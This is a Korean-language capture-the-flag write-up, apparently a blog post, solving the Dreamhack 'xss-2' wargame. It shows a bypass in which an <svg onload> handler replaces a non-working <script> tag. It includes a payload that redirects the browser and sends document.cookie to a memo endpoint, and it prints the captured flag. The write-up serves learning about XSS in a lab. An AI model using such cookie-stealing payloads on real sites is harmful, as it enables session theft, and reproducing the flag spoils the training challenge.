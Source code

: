 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "xss-2"  Write-UP</h1>
</body>
<br>
<br>
</html>

2024.07.05 풀이

![image](https://github.com/user-attachments/assets/b404888d-c50e-42db-97c0-53437b9f7694)

https://chs777888.tistory.com/45

에서 xss-1 문제를 푼 후, 

조금 더 xss에 대해서, 학습하기 위해

Dreamhack 워게임에 있는 1 단계의 

xss-2 를 풀어보려고 한다.

<br>
</br>
 
일단 해당 서버에 접속해보니, xss-1과 비슷하게 세 페이지가 나온다.

![image](https://github.com/user-attachments/assets/76992046-2b03-42cb-a33d-d1aa8e9cc46c)

![image](https://github.com/user-attachments/assets/515df7ae-fb1b-4672-b90b-70cff4e61197)


다만 조금 다른 점은, vuln 페이지에서 1이라는 말을 하는 알림창이 뜨지 않는 것이다.

 <br>
</br>

![image](https://github.com/user-attachments/assets/e8dca5df-d444-4389-a5b5-388942c63962)

![image](https://github.com/user-attachments/assets/f7536c37-c97f-484e-829c-175c79991b51)

그 후, 문제를 다운받은 후, 압축을 풀어보니, 여러 파일들이 있었는데,

그 파일 중, app.py 파이썬 코드를 열어보았다.

<br>

</br>

![image](https://github.com/user-attachments/assets/d24f4298-b5d0-40c5-81c0-e9408e689bb8)

![image](https://github.com/user-attachments/assets/3ebff2b9-a31e-45fd-aa30-c1ad0e032f81)
 
![image](https://github.com/user-attachments/assets/db40ef78-e164-4631-8cf7-c5e23a335231)


위의 소스 코드를 보니, vuln에서 param을 return 하는 코드가 빠진 거 외에는

xss-1과 똑같은 코드였다.

 <br>
</br>

저번 xss-1에는 1이라는 알림창을 뜨게 하기 위해

`<script>alert(1)</script>` 이 있었는데,

이번에는 `<script>alert(1)</script>`이 있는데도,

이 스크립트 태그가 작동하지 않는 것을 확인할 수 있다. 

스크립트 태그 대신에 다른 것을 입력해야 할 것 같다.

이를 우회해서 할 수 있는 방법이 뭐가 있을까하고 인터넷을 찾아본 결과,

해당 스크립트 태그 대신에,

<svg onload=>를 사용하는 경우들을 발견하였다.

 <br>
</br>

이를 참고하여, vuln 페이지 주소창에 `<svg onload="alert('1')">`을

뒤에 이어붙이니까,

  <br>
  
</br>

![image](https://github.com/user-attachments/assets/0f685328-0881-4ddd-be5b-73782fbbc13d)

다시 1이라는 알림창이 생겼다. 

그래서, 전에 xss-1에서 썼던 코드를 <svg onload=> 형식으로

작성하였다.

 <br>
</br>

```
<svg onload="location.href = 'http://127.0.0.1:8000/memo?memo=' + document.cookie">
```

 <br>
</br>

 ![image](https://github.com/user-attachments/assets/7a0011c6-442c-4c75-9984-f7bd691a9501)

![image](https://github.com/user-attachments/assets/bc4d5054-62cd-455e-a7b4-b0cad747a480)

이를 flag 페이지에 입력해보니, good 알림창이 뜬 것을 확인할 수 있다.

<br>

</br> 

![image](https://github.com/user-attachments/assets/e3f64ee2-fe8f-45f9-a0e6-42dea1aa530f)

그 후, 메모 페이지를 가보니, flag 값이 기록된 것을 확인할 수 있다.....!

 <br>

</br>

```
flag=DH{3c01577e9542ec24d68ba0ffb846508f}
``` 
 <br>
</br>

![image](https://github.com/user-attachments/assets/7633ddaf-c82f-41da-b009-02af6d126bbc)

 


